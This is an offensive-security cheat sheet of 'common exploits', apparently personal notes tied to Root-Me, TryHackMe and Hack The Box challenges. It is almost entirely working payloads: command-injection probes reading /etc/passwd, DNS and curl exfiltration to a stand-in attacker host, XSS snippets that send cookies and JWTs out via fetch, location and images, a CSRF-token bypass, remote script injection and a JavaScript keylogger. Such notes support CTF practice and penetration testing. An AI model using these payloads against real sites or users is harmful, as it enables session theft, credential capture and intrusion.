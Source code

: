 # Common Exploits

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) is the way to go, but I noted down some of mine.

<hr class="sep-both">

## Command Execution

<div class="row row-cols-lg-2"><div>

#### Command Execution — In-Band

[![powershell_command_injection](../../../../_badges/rootme/app_script/powershell_command_injection.svg)](https://www.root-me.org/en/Challenges/App-Script/Powershell-Command-Injection)
[![powershell_basic_jail](../../../../_badges/rootme/app_script/powershell_basic_jail.svg)](https://www.root-me.org/en/Challenges/App-Script/Powershell-Basic-jail)

Linux commands:

```shell!
$ pwd
$ whoami
$ whoami;id
$ whoami||id
$ cat /etc/passwd
```

Windows commands:

```shell!
PS> whoami
PS> $(whoami)
PS> $(Get-ChildItem Env:)
PS> $(command|Out-string) | powershell command
```
</div><div>

#### Command Execution — Out-Of-Band

Use DNS-exfiltration to extract the command output:

```shell!
$ nslookup `whoami`.domain.com
$ nslookup $(whoami).domain.com
```

Extracting DNS files:

```shell!
$ curl -F "key=@/etc/passwd" https://hacker.example.com
```

Redirect to an exposed HTML file:

```shell!
$ cat /etc/passwd > /var/www/html/output.txt
```

Add a time delay:

```shell!
$ true && sleep 5
```
</div></div>

<hr class="sep-both">

## JavaScript

*Real examples of malicious code can be found at [XSS-payloads](http://www.xss-payloads.com/payloads-list.html?a#category=all) <small>(💥?)</small>.*

<div class="row row-cols-lg-2"><div>

#### JavaScript — Fingerprint

[![xssgi](../../../../_badges/thmp/xssgi.svg)](https://tryhackme.com/room/xssgi)
[![xss](../../../../_badges/thmp/xss.svg)](https://tryhackme.com/room/xss)
[![session_security](../../../../_badges/htb/session_security.svg)](https://academy.hackthebox.com/course/preview/session-security)

We sometimes need to check a few things:

* `document.domain`: current domain name
* `window.location`: current URL
* `window.origin`: when inside a IFRAME
* `"fieldname"`: to make sure which field is vulnerable

Often with `alert(...)` or `console.log(...)` or `print()` for `<iframe>`.

#### JavaScript — Steal Cookie

[![cross_site_scripting](../../../../_badges/htb/cross_site_scripting.svg)](https://academy.hackthebox.com/course/preview/cross-site-scripting-xss)
[![session_security](../../../../_badges/htb/session_security.svg)](https://academy.hackthebox.com/course/preview/session-security)
[![xssgi](../../../../_badges/thmp/xssgi.svg)](https://tryhackme.com/room/xssgi)
[![xss](../../../../_badges/thmp/xss.svg)](https://tryhackme.com/room/xss)
[![xss_stored_1](../../../../_badges/rootme/web_client/xss_stored_1.svg)](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1)
[![xss_dom_based_introduction](../../../../_badges/rootme/web_client/xss_dom_based_introduction.svg)](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Introduction)
[![xss_dom_based_filters_bypass](../../../../_badges/rootme/web_client/xss_dom_based_filters_bypass.svg)](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Filters-Bypass)
[![csp_bypass_nonce](../../../../_badges/rootme/web_client/csp_bypass_nonce.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Nonce)
[![xss_reflected](../../../../_badges/rootme/web_client/xss_reflected.svg)](https://www.root-me.org/en/Challenges/Web-Client/XSS-Reflected)
[![xss_stored_filter_bypass](../../../../_badges/rootme/web_client/xss_stored_filter_bypass.svg)](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-filter-bypass)
[![xss_dom_based](../../../../_badges/rootme/web_client/xss_dom_based.svg)](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based)
[![marketplace](../../../../_badges/thm-p/marketplace.svg)](https://tryhackme.com/r/room/marketplace)

Classic fetch cookie with/without space handling

```javascript!
fetch('https://hacker.example.com/?cookie=' + document.cookie)

fetch('https://hacker.example.com/?cookie=' + btoa(document.cookie))
```

Double nested fetch for Anti-CSRF Token bypass

```javascript!
fetch('https://hacker.example.com/admin/')
	.then(r=>r.text())
	.then(html => {
        const parser = new DOMParser();
        const doc = parser.parseFromString(html, 'text/html');
        const csrfToken = doc.querySelector('input[name="csrf"]')?.value;
        fetch('https://hacker.example.com/admin/enable', {
			'credentials': 'include',
			'headers': {
				'Content-Type': 'application/x-www-form-urlencoded',
			},
			"body": "username=jdoe&csrf="+csrfToken,
			"method": "POST",
			"mode": "cors"
		});
    })
```

Location-based (CORS bypass).

```javascript!
location="https://hacker.example.com/?cookie="+document.cookie
```

JWT exfiltration using location.

```javascript
fetch("/api/token", {
  "headers": {
    "accept": "*/*",
  },
  "mode": "no-cors",
  "body": null,
  "method": "GET",
  "credentials": "include"
}).then(r=>r.json()).then(r=>location.href='https://hacker.example.com/?' +r.apikey);
```

Fetch using alternate method

```javascript!
fetch('https://hacker.example.com', { method: 'POST', mode: 'no-cors', credentials: 'include', body: btoa(document.cookie) });
```
</div><div>

#### JavaScript — Fetch Using Images

Images may have been blocked but fetch may have not.

```javascript!
new Image().src = "https://hacker.example.com/?cookie="+btoa(document.cookie);
// image reuse (must have one)
document.images[0].src = "https://hacker.example.com/?cookie="+btoa(document.cookie)
// longer version
document.body.appendChild(Object.assign(document.createElement('img'), { src: "X"+btoa(document.cookie) }));
// alternative payload
let imageElement = document.createElement("img"); imageElement.src = "https://hacker.example.com/?cookie="+btoa(document.cookie); document.body.appendChild(imageElement);
```

#### JavaScript — Inject Script Tag

Inject a remote external JavaScript file, useful when length is limited or there is a need to bypass some protections.

```javascript!
document.write`<script src=//example.com>`

appendChild(createElement`script`).src='//example.com/x.js'

document.body.appendChild(document.createElement`script`).src='//example.com/x.js'

s=document.createElement('script');s.src='//example.com/x.js';document.body.appendChild(s);

(s=>document.body.appendChild(s))(document.createElement('script')).src='//example.com/x.js'

document.appendChild(Object.assign(document.createElement('script'),{src:'//example.com/x.js'}));
```

#### JavaScript — Submit Form

Mostly in CSRF context, submit a form.

```javascript!
document.forms[0].submit()
document.getElementById('my_form').submit()
```

#### JavaScript — Keylogger

Sends pressed keys to a malicious website. The code is using `btoa()` to encode in base64 the values.

```javascript!
let keys = ''
document.onkeydown = e => keys += e.key
setInterval(() => {
    if (keys === '') return
    fetch('https://example.com/keylogger?key=' + btoa(keys) )
    keys = ''
}, 1000)
```
</div></div>